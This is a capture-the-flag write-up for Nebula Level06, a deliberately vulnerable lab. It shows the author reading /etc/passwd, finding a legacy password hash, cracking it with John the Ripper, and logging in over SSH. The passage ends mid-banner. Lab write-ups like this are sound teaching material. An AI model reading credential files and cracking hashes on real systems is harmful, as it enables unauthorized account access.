 ### Level06

The flag06 account credentials came from a legacy unix system.

To do this level, log in as the level06 account with the password level06. Files for this level can be found in /home/flag06.

I looked around a bit, didn't find anything interesting in the files owned by flag06. But keeping the hint in mind, I took a cursory glance at the <code>/etc/passwd</code> file, and bingo!:

``` plain
level06@nebula:/home/flag06$ cat /etc/passwd
...
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
...
```

The password hash for the flag06 user is inside */etc/passwd*! (as a remnant of the old times when this file also contained the passwords for the users). Time to get cracking! I copied the hash to a file and ran John on it:

``` plain
root@kali:~/Desktop# john --show hash
?:hello

1 password hash cracked, 0 left
```

So the password is *hello*. Now it's just a matter of ssh'ing and getting the flag:

``` plain
level06@nebula:/home/flag06$ ssh flag06@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
  
      _   __     __          __     
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ / 
  /_/ |_/\___/_.___/\__,_/_/\__,_/  
                                    
    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


flag06@localhost's password: 
Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
```